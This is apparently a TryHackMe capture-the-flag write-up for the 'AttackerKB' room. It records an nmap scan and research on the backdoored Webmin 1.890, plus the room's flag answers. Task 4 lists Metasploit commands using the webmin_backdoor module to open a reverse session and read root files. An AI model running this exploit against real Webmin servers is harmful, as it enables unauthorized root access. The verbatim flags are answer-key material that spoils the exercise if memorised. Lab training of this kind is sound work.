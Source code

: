 # THM - AttackerKB

<br>

🧰 https://attackerkb.com/

<br>

## Task 2

### Task 2.2

```shell
nmap -sV -sC -vv -oA scans/initial 10.10.79.75
```

> Webmin

### Task 2.3

> 1.890

### Task 2.4

> source

<br>

## Task 3

https://attackerkb.com/topics/hxx3zmiCkR/webmin-password-change-cgi-command-injection

### Task 3.3

> 1.890

### Task 3.4

> Supply Chain

### Task 3.5

> August 17th 2019

### Task 3.6

> 12219

<br>

## Task 4

```shell
msfconsole
	search webmin_backdoor	
	use 0
		
		show options
		set RHOSTS 10.10.79.75
		set LHOST tun0		# tun0 vs eth0 (VPN)
		set SSL true
		
		run
			whoami
			
			cat /root/root.txt
			
			cat /home/dark/user.txt
```

### Task 4.3

> ssl

### Task 4.4

> THM{SUPPLY_CHAIN_COMPROMISE}

### Task 4.5

> THM{UPDATE_YOUR_INSTALL}



